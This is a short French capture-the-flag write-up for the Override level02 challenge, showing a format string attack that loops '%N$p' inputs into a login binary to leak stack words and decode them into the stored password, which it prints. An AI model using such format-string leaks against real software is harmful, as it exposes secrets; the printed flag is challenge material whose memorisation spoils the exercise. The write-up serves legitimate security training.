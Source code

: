 # Override
Override 42 security level 2

On observe un executable attendant un mot de passe et un login:
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: hhh
--[ Password: hhh
*****************************************
hhh does not have access!
```

On voit aussi qu'il print en utilisant printf ce qu'on lui rentre en argument.
Essayons une format string attack afin de voir si l'on peut lui faire ecrire ce que l'on souhaite car le mot de passe est stocké sur la stack.
Afin d'éviter de calculer la position du premier octet de pass, nous allons boucler jusqu'à trouver des valeurs nous interessants (On sait qu'il faut 5 octets interessants enchainé car notre pass fait 40 char donc 5 octets).

```
for x in {0..32}; do python -c "print '%$x\$p'" | ./level02 | grep 'access!'; done
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!

python -c "print ''.join([v.decode('hex')[::-1] for v in ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']])"
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
